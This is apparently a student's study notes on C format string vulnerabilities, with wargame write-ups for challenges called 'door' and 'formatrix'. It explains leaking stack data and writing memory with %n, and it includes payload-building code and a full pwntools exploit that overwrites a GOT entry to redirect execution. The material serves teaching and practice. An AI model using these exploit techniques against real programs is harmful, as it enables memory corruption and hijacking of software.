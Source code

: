 ## Format String Vulns

### What is a format string? 
A string with placeholders in it. In C, the placeholders look like `%[dns]` Each of them is treated as an argument. 

### When do format string bugs occur?
When the user is able to control the format string

```C
//User controlled format string is put into printf
//They can enter a string which is treated as a format string i.e. User can make buf look like % s %s % s
char buf[100]
fgets(buf, sizeof(buf), stdin)
printf(buf)
```
	
### How do we identify format string vulnerabilities (quickly)?
Pass in a bunch of %x, %d etc. and see if some stack addresses are printed. (Note: stack addresses look like f7…)
**Slower way** : In binary ninja, you can see that we are giving the address of the buffer to printf as a format string. 

### How do format strings work?

In stack view, a call to a `printf` function creates a new stack frame. All its arguments are just below the return address. Since `printf` doesn't know how many 
arguments it has, specifying %x will fetch random arguments from the stack (below printf's return address)

### Leaking information (%s)

**Wargame - door**
Enter `AAAA %x %x` to test for format string vuln
```You say, AAAA 41000001 20414141```

Align this by 1 byte. so entering `zAAAA %x %x` 
```You say, zAAAA 7a000001 41414141```
This is equivalent to `zAAAA%2$x` meaning 1 byte padding and we are accessing the 2nd argument in the printf statement. (i.e. the 2nd %x symbol)

From the binary, we see that user input is being compared to "APES"
```
lea     eax, [ebp-0x9 {var_d}]
push    eax {var_d} {var_218_1}
lea     eax, [ebx-0x15c6]  {data_9f6, "APES"}
push    eax  {data_9f6, "APES"}
call    strncmp
```

Also, a target address has been provided. This is at ebp-0x9 which is convebient since that is the user input variable given to strncmp.
So we need to change this to APES.

`%n` writes the number of bytes it read to target address in memory. Using this, we will write APES.

Steps to craft payload:
1. Write the padding +  target addresses
```python
payload = b' '
payload += p32(target_addr) + p32(target_addr + 1) + p32(target_addr + 2) + p32(target_addr + 3)
```
2. Write the letters. For example: ord('A') = 65 which is the ASCII value of A. The number of bytes written so far is length of existing payload.
We subtract 65 bytes from this to get a total padding equal to 65.
```python
written_so_far = len(payload) - ord('A')
payload += f'%{written_so_far}x%2$hhn'.encode()
```
Similarly for P
```python
written_till_A = ord('P') - ord('A')
payload += f'%{written_till_A}x%3$hhn'.encode()
```
ord('E') is 0x69. We have already written more than 0x69 bytes of characters. So we use 0x100 (256 bytes) + ord('E') (69 bytes) = 325 bytes total.
We use `hh` to to truncate the value and still keep it as 0x69.

```python
written_till_P = 0x100 + ord('E') - ord('P')
payload += f'%{written_till_P}x%4$hhn'.encode()

written_till_E = 0x100 + ord('S') - ord('E')
payload += f'%{written_till_E}x%5$hhn'.encode()
```

**Wargame - formatrix**
Exploit idea - Since no RELRO is enabled we can replace a GOT table function call address with address to the win function. NX is enabled which means we can't place shellcode on the stack but that
doesn't matter in this scenario.

Win address is at 0x0x08048536 (use disass win in gdb). Will overwrite the call to the last printf statement with this address.
```
0x080486d9 <+359>:	call   0x80483b0 <printf@plt>
0x080486de <+364>:	add    esp,0x10
0x080486e1 <+367>:	mov    eax,0x0
0x080486e6 <+372>:	lea    esp,[ebp-0x8]
0x080486e9 <+375>:	pop    ecx
0x080486ea <+376>:	pop    ebx
0x080486eb <+377>:	pop    ebp
0x080486ec <+378>:	lea    esp,[ecx-0x4]
0x080486ef <+381>:	ret
```
```
pwndbg> disass 0x80483b0
        Dump of assembler code for function printf@plt:
           0x080483b0 <+0>:	jmp    DWORD PTR ds:0x8049c18
           0x080483b6 <+6>:	push   0x8
           0x080483bb <+11>:	jmp    0x8048390
        End of assembler dump.
pwndbg> x 0x8049c18
        0x8049c18 <printf@got.plt>:	0x080483b6
```
Note that our taregt address 0x8049c18 is located in the got.plt table.

Entering AAAA %x %x %x %x %x %x (or === AAAA%3$x), we get
`AAAA f7f8e580 804858c 41414141 66376620 38356538 30382030 38353834 3134206` 
This means that no padding is necessary since our buffer is already 4 byte aligned in the 3rd argument of printf.

Final exploit
```python
from pwn import *

PROGNAME = "./formatrix"
REMOTEIP = ""
REMOTEPORT = 24103

if args.REMOTE:
    p = remote(REMOTEIP, REMOTEPORT)
    elf = ELF(PROGNAME)
else:
    p = process(PROGNAME)
    elf = p.elf

def get_n(new, prev, size):
    while new <= prev:
        new += (1 << size)
    return new-prev

#Function that returns payload = <base_addr> + <base_addr + 1> + <base_addr + 2> + <base_addr + 3>
def gen_addrs(base_addr):
    addrs = b''
    for i in range(4):
        addrs += p32(base_addr + i)
    return addrs

#Function to return the format string
#Args - address to write, current payload length, printf stack 
def gen_format_writes(to_write, setup_len, stack_offset):
    payload = b''
    n_val = [setup_len]
    for i in range(4):
        n_val += [get_n(to_write[i], sum(n_val[:i+1]), 8)]
        payload += '%{}c'.format(n_val[i+1]).encode()
        payload += '%{}$hhn'.format(stack_offset + i).encode()
        print("Payload part " + str(i) + " = " + str(payload) )
    return payload

#win_addr is 0x08048536
win_addr = [c for c in p32(0x08048536)] #[54, 133, 4, 8]

#Target address
target_addr = 0x08049c18

payload = gen_addrs(target_addr)
log.info("Target addr = " + str(payload))

payload += gen_format_writes(win_addr, len(payload), 3)
log.info("After generating format writes = " + str(payload))

p.recvuntil('say: ')
p.sendline(payload)
p.interactive()

```

